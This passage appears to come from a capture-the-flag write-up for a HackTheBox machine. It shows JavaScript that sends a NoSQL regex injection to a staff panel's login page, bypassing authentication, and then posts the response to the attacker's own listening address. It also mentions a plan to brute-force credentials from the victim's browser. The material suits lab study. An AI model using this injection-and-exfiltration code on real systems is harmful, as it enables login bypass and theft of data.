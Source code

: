 ![](screenshots/local-staffroom-app-nosqli-1.png)

And same result got from remote server using following javascript
```js
var req1 = new XMLHttpRequest();
req1.open("POST", "http://staff-review-panel.mailroom.htb/auth.php", false);
req1.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
const data = "email[$regex]=^&password[$regex]=^";
req1.send(data);
var resp = req1.response;

var req2 = new XMLHttpRequest();
req2.open("POST", "http://10.10.14.6:4141/", false);
req2.setRequestHeader("Content-Type", "text/plain");
req2.send(resp);
```

![](screenshots/remote-staffroom-app-nosqli-1.png)

First i tired a write a javascript which loads in the target browser and brute-force email and password and then send them to our server, but browser CORS was blocking the script from executing async requests.
